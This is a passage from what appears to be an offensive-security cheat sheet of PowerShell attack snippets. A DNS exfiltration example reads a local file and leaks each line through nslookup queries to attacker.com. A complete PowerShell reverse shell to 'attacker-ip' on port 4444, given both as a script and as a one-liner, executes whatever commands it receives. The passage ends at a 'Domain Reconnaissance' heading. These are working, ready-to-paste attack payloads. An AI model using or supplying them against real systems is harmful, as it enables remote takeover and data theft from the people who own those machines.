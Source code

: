 DNS exfiltration

> [!example]-
>
> ```sh
> $data = Get-Content C:\data.txt
> ```
> ```sh
> $data | ForEach-Object {
>   nslookup "$_. attacker.com"
> }
> ```

___




## Reverse Shell

Establish reverse shell connections for persistent access

PowerShell reverse shell

> [!example]-
>
> ```sh
> $client = New-Object System.Net.Sockets.TCPClient('attacker-ip',4444)
> $stream = $client.GetStream()
> [byte[]]$bytes = 0..65535|%{0}
> while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
>   $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
>   $sendback = (iex $data 2>&1 | Out-String )
>   $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
>   $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
>   $stream.Write($sendbyte,0,$sendbyte.Length)
>   $stream.Flush()
> }
> ```
>
> One-liner PowerShell reverse shell
>
> ```sh
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker-ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
> ```




## Domain Reconnaissance
